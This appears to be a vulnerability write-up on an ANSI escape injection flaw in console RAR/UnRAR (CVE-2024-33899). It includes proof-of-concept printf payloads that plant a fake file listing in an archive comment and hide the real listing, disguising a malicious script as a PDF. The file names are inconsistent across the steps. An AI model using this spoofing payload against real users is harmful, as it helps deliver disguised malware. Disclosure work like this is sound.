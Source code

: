 # CVE-2024-33899: ANSI Escape Injection Vulnerability in WinRAR

## Overview

On February 28, 2024, RARLAB released an update for WinRAR, addressing an ANSI escape sequence injection vulnerability identified in the console versions of RAR and UnRAR. This vulnerability, tracked as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows systems, affects versions 6.24 and earlier. It allows attackers to spoof screen output or cause a denial of service on Linux and Unix. This issue was resolved in version 7.00. It is important to note that the GUI version of WinRAR and the UnRAR library were not impacted by this vulnerability.

## Understanding the Vulnerability

### ANSI Escape Sequences

Programs like Vim and Neofetch utilize ANSI escape sequences to modify text and background color, control the cursor, and create graphical user interfaces within the terminal. Although ANSI escape sequences can create advanced terminal programs, they can also be weaponized.

### How WinRAR is Affected

WinRAR provides console versions of RAR and UnRAR, which can be used to create and extract RAR archives. RAR files support comments, which are displayed when listing the contents of the archive using the command `rar l demo.rar`.

#### Vulnerability Demonstration

To check if ANSI escape sequences are filtered out in the comment section, we can use a simple payload that will display "THIS IS GREEN" in green text.

```bash
printf 'Hello \033[32mTHIS IS GREEN\033[0m\007' | rar c demo.rar
```
Upon executing rar l demo.rar, the output shows "THIS IS GREEN" in green, indicating that the comment field does not filter ANSI escape sequences.

Exploitation
This vulnerability can be exploited in various ways. Here, we will demonstrate an exploit suited for WinRAR.

Creating the Exploit
First, we will place our virus.exe file inside a RAR archive:

```bash
$ ls myfolder
virus.sh
$ rar a demo.rar script.sh myfolder 
```

Next, we will add the following payload to the comment section:
```bash
printf 'Archive: demo.rar\nDetails: RAR 5\n\nAttributes      Size       Date   Time   Name\n----------- ---------  ---------- -----  ---------\n-rw-r--r–        7    2024-05-19  16:26  notvirus.pdf\n-rw-r--r–      193    2024-05-19  16:26  script.sh\n----------- ---------  ---------- -----  ---------\n               200                          2\e[8m' | rar c demo.rar
```

This payload includes a fake listing where virus.sh is replaced with notvirus.pdf. The ANSI escape sequence \e[8m is used to hide all content after the comment section in the output. Consequently, the actual file listing is hidden, and our fake file listing is displayed.

## Result
In the screenshot above, you can see a large gap between the output and the shell prompt. This gap is due to the original file listing being outputted but rendered invisible using \e[8m. While experienced command line users may find this suspicious, less experienced users could easily be tricked.


## Conclusion
The ANSI escape sequence injection vulnerability in the console versions of RAR and UnRAR posed a significant risk, allowing attackers to spoof output and potentially cause denial of service. This issue, identified as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows, was addressed in WinRAR version 7.00. The GUI version of WinRAR and the UnRAR library remain unaffected by this issue.
